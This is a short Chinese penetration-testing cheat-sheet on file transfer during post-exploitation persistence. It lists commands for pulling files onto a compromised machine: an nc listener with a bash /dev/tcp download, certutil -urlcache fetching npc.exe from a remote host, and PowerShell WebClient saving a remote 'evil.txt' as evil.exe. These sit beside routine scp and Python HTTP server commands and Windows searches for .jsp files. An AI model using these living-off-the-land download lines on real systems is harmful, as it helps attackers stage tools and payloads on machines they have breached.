 ```yaml
---
title: 【权限维持】文件传输
date: 2020-11-02 22:00:00
---
```

# 文件传输

## Python搭建简单的HTTP服务

```bash
python -m http.server 80

python2 -m SimpleHTTPServer 80
```

## SCP

上传

```bash
scp 123.txt root@10.10.10.10:~/123.txt
```

下载

```bash
scp root@210.210.210.10:/home/root/1.txt ./1.txt
```

## Bash Download

```bash
#服务器监听
nc -lp 1337 < 666.txt

#客户端下载
bash -c 'cat < /dev/tcp/10.10.10.10/1337 > 666.txt'
```

## certutil 下载

```bash
certutil -urlcache -split -f http://10.10.10.10:80/npc.exe
```

## PowerShell 下载

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

## Windows查找文件

```bash
dir /s *.jsp
```

```bash
for /r D:\developer %i in (*.jspx) do @echo %i
```